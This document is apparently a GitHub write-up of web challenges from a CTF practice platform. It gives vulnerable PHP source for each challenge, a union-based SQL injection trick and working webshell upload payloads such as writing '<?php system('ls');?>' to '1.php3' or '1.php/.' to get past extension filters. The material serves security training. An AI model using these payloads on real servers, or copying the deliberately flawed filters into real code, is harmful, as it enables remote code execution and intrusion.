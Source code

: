 # TCTF v2 
TCTF v2 is the CTF practice platform for MasonCC, and I have put up some web challenge on it. It is pity that I cannot keep all challenges running on server. Therefore, I would give my writeup of web challenge here. Welcome to take source code of challenges if you are interested in anyone.  
*  [Cover Peasy](#cover-peasy)  
*  [PHP un-Siri ME](#php-un-siri-me)  
*  [Unicorn && Lion](#unicorn-and-lion)  
*  [Shorter shell](#shorter-shell)  
*  [Peasy shell not PHP](#peasy-shell-not-php)  
*  [Apache2 giv u new Shell](#apache2-giv-u-new-shell)  
*  [Destroy chllenge with ur shell?](#destroy-chllenge-with-ur-shell?)  

## Cover Peasy
Level: :star:  
see source code in ./easypeasy.txt  
```php
<meta charset="utf-8">
<?php

error_reporting(0);
if (empty($_GET['str'])) {
    echo "see source code in ./easypeasy.txt";
    die();
}else{
    $flag = trim(file_get_contents('xxxxxxxxxxx.php'));
    $url = "www.1pwnch.org";
    $str = $_GET['str'];
    $pwnch = "enjoyIt";
    @parse_str($str);
    if ($url[0] != 'QNKCDZO' && md5($url[0]) == md5('QNKCDZO')) {
        extract($_GET);
        if($pwnch == $flag){
            echo "masoncc{xxxxxxxxxxx}";
        }else{
            echo "Good! But it's not enough!";
        }
    }else{
        exit('Try angain :-)');
    }
}
?>
```

## PHP un Siri ME
Level: :star::star:  
The difficulty of this challenge is your truely understand of unserialization.  

## Unicorn and Lion
Level: :star:  
This is a very classic challenge for Union-based mysql injection.  
I won't keep source code of file in this place.  
You need to find each answer of problem from the **faq.php**.  
What's worth paying attention to is that you need to separate each results of answer.  
Here is the trick ```group_concat(column name separator 'x')```  
that ```x``` can help you separate each results.  
![union](https://github.com/shinmao/CTF-writeups/blob/master/tctf-masoncc-writeup/screenshot/union%20and%20lion.png)

## Shorter shell
Level: :star::star::star:  
[Enjoy my writeup on my blog](https://shinmao.github.io/2018/02/20/A-tiny-shell/)  
In fact, there is a classic solution to such kind of challenge: **Reverse shell**  
Thanks to @chris-issing provides his payload: 

## Peasy shell not PHP
Level: :star:  
```php
show_source(__FILE__);

$content = $_POST['content'];
$filename = $_POST['filename'];
$filename = "backup/".$filename;

if(preg_match('/.+\.php$/i', $filename)){
    echo 'Hey! I have told you, bad boy!';
}else{
    $f = fopen($filename,'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php3```  
Associated knowledge: ```.php4```,```php5```,```php7```,```pht```,```phtml``` can also work.  

## Apache2 giv u new Shell
Level: :star:  
```php 
show_source(__FILE__); 

$sandbox = 'sb'.md5($_SERVER['REMOTE_ADDR']);
echo 'Here is your sandbox: '.$sandbox;

@mkdir($sandbox);
@chdir($sandbox);
@exec('touch i_no_you.txt');
 
$content = $_POST['content']; 
$filename = $_POST['filename']; 
 
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
   die("1pwnch is angry!!");
}else{
    $f = fopen($filename, 'w');
    fwrite($f, $content);
    fclose($f);
}
```
Payload: ```url/?content=<?php system('ls');?>&filename=1.php/.```  

## Destroy chllenge with ur shell?
Level: :star::star::star:  
```php
// up.php
show_source(__FILE__);
function ppwaf($file){
    $hack = file_get_contents($file);
    if(stripos($hack,'eval') === false && stripos($hack,'assert') === false && stripos($hack,'echo') === false){
        echo "good! The content of your file is secure!"."<br />";
        return true;
    }else{
        echo "You have dangerous content!"."<br />";
        return false;
    }
}

function ppname($name){
    if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $name)){
           echo "Bad file extension";
        return false;
    }else{
            return true;
        echo "good! The filename of your file is secure!"."<br />";
    }
}

if($_FILES["file"]["error"]>0){
    echo "error code: ".$_FILES["file"]["error"]."<br />";
}else{
    echo "filename: ".$_FILES["file"]["name"]."<br />";
    echo "tmp name: ".$_FILES["file"]["tmp_name"]."<br />";
    if(ppwaf($_FILES["file"]["tmp_name"]) == true && ppname($_GET['name']) == true){
            move_uploaded_file($_FILES["file"]["tmp_name"],$_GET['name']);
    }else{
        echo "I am sorry because your dangerous file!"."<br />";
    }
}
```
Payload: [Enjoy my blog](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)  
![payload](https://github.com/shinmao/shinmao.github.io/blob/master/assets/uploads/2018-04-13/payload.png)
